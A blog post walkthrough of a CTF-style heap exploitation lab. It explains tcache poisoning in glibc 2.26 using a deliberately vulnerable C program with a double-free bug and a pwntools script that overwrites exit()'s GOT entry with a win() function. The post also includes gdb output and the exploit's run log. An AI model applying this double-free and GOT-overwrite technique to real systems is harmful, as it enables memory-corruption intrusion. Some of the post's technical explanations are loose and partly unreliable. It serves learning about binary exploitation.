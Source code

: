 ```yaml
---
layout: post
title:  "Tcache Poisoning [heap exploitation]"
date:   2018-12-09 20:03:11
categories: experience
---
```



# Tcache Poisoning
what is tcache poisoning ? 
In glibc-2.26, TCache (per-thread cache), a new feature, was introduced in malloc.
and tcache poisoning is a technique to poison Tcache feature in glibc-2.26. for example from how2heap by shellpish team 

	This file demonstrates a simple tcache poisoning attack by tricking malloc into
	returning a pointer to an arbitrary location (in this case, the stack).
	The attack is very similar to fastbin corruption attack.

	The address we want malloc() to return is 0x7ffedaf11040.
	Allocating 1 buffer.
	malloc(128): 0x55a2b964b260
	Freeing the buffer...
	Now the tcache list has [ 0x55a2b964b260 ].
	We overwrite the first 8 bytes (fd/next pointer) of the data at 0x55a2b964b260
	to point to the location to control (0x7ffedaf11040).
	1st malloc(128): 0x55a2b964b260
	Now the tcache list has [ 0x7ffedaf11040 ].
	2nd malloc(128): 0x7ffedaf11040
	We got the control

for another example we will try to exploit this simple program by using tcache poisoning:

{% highlight c %}
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

#define SZ_BLOCK 200
#define SZ_HEAP  10
#define SZ_FLAG 100

char a[100];
u_int *(buf);

void win(){
	char buf[SZ_FLAG];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL){
		puts("[!] error code 901");
		exit(0);
	}
	fgets(buf,SZ_FLAG,f);
	puts(buf);
}

void welcome(){
puts("     __                      __                           _                      _              ");
puts("    / /_ _____ ____ _ _____ / /_   ___     ____   ____   (_)_____ ____   ____   (_)____   ____ _");
puts("   / __// ___// __ `// ___// __ \\ / _ \\   / __ \\ / __ \\ / // ___// __ \\ / __ \\ / // __ \\ / __ `/");
puts("  / /_ / /__ / /_/ // /__ / / / //  __/  / /_/ // /_/ // /(__  )/ /_/ // / / // // / / // /_/ / ");
puts("  \\__/ \\___/ \\__,_/ \\___//_/ /_/ \\___/  / .___/ \\____//_//____/ \\____//_/ /_//_//_/ /_/ \\__, /  ");
puts("       HackerClass Gunadarma @2019     /_/        author: arsalan (tripoloski)         /____/   ");
}

void menu(){
	puts("+---------------------+");
	puts("|         Menu        |");
	puts("+---------------------+");
	puts("| 1. allocate memory  |");
	puts("| 2. freeing memory   |");
	puts("| 3. exit             |");
	puts("+---------------------+");
	printf("| select [1-3] : ");
}

void init(){
	setvbuf(stdout, 0 , 2 , 0);
	setvbuf(stdin, 0 , 2 , 0);
}

void create_memory(){
	int size;
	printf("[?] size : ");
	//read(0,size , sizeof(size));
	scanf("%d" , &size);
	printf("[?] data : ");
	if (size <= 0x88){
		buf = malloc(size);
		read(0,buf , size);
	}
	puts("[+] memory allocated!");
}

void release_memory(){
	free(buf);
}

void main(){
	init();
	char buf[4];
	welcome();
	while(1){
		menu();
		read(0 , buf , sizeof(buf));
		switch(atoi(buf)){
			case 1:
				create_memory();
				break;
			case 2:
				release_memory();
				break;
			case 3:
				puts("[+] exiting...");
				exit(0);
				break;
			default:
				puts("[!] invalid choice error code 1902");
				break;
		}
	}
}
{% endhighlight %}


you can find this challenge on my repository [here](https://github.com/tripoloski1337/learn-to-pwn/tree/master/tcache_poisoning) in this case we have to allocating memory and double freeing , since there's no checks for double free on glibc-2.26+. so we can directly do double free, after that we can allocate memory and fill it with whatever we want. at this point we already controll the rdx register. 

	malloc(0x100)
	free(0)
	free(0)
	malloc(0x100) <------ control rdi
	malloc(0x100) <------ just a padding
	malloc(0x100) <------ another control 

### how can it be ?
if you look into gdb there's something interesting at address **<malloc+407>**

     → 0x7ffff7a7b207 <malloc+407>     mov    rdi, QWORD PTR [rdx]

this instruction will mov rdx value to rdi. it's mean it will move whatever value is from rdx to rdi register. and suddenly our rdx is filled with our input before

    $rax   : 0x5
    $rbx   : 0x64
    $rcx   : 0x0000000000602010  →  0x0000000000000000
    $rdx   : 0x4141414141414141 ("AAAAAAAA"?) <----- our input data from the seccond malloc
    $rsp   : 0x00007fffffffe320  →  0x0000000000400dd1  →  "+---------------------+"
    $rbp   : 0xffffffffffffffb0
    $rsi   : 0x0000000000602038  →  0x0000000000000000
    $rdi   : 0x64
    $rip   : 0x00007ffff7a7b207  →  <malloc+407> mov rdi, QWORD PTR [rdx]
    $r8    : 0xb
    $r9    : 0x0
    $r10   : 0x00007ffff7b82cc0  →  0x0002000200020002
    $r11   : 0x246
    $r12   : 0x0000000000400740  →  <_start+0> xor ebp, ebp
    $r13   : 0x00007fffffffe460  →  0x0000000000000001
    $r14   : 0x0
    $r15   : 0x0

in this case we can doing GOT overwrite from exit() function to win() function 

{% highlight c %}
	case 3:
		puts("[+] exiting...");
		exit(0); <-- our goal to changed it to win()
		break;
{% endhighlight %}

to make it more clear and reliable i made a python script to exploit this binary 

{%highlight python%}

from pwn import *
r = process("./tcache_poisoning")

def alloc(size,data ):
	r.sendlineafter("| select [1-3] :","1")
	r.sendlineafter("[?] size :",str(size))
	r.sendlineafter("[?] data :",data)
	log.info("allocating")

def free():
	r.sendlineafter("| select [1-3] :","2")
	log.info("freeing")

win_plt = 0x0000000000400827
exit_got = 0x000000601348
#gdb.attach(r)
alloc(0x28,"A"*8)

free()
free()

alloc(0x28,p64(exit_got))
alloc(0x28,p8(0x00))
alloc(0x28,p64(win_plt)) 

r.interactive()

{% endhighlight %}

after running this python script we can select option 3 to trigger exit() and exit() is not the real exit() function anymore it was win() function since we doing GOT overwrite 

	[+] Starting local process './tcache_poisoning': pid 28800
	[*] allocating
	[*] allocating
	[*] freeing
	[*] freeing
	[*] allocating
	[*] allocating
	[*] allocating
	[*] Switching to interactive mode
	 [+] memory allocated!
	+---------------------+
	|         Menu        |
	+---------------------+
	| 1. allocate memory  |
	| 2. freeing memory   |
	| 3. exit             |
	+---------------------+
	| select [1-3] : $ 3
	[+] exiting...
	ctf{y0u_must_b3_a_pwnerrrr!!!!!}

as you can see there's string ***ctf{y0u_must_b3_a_pwnerrrr!!!!!}*** it mean our win() function has called and give us data from file flag.txt you can see what win() actually do here
{% highlight c %}
void win(){
	char buf[SZ_FLAG];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL){
		puts("[!] error code 901");
		exit(0);
	}
	fgets(buf,SZ_FLAG,f);
	puts(buf);
}
{% endhighlight %}
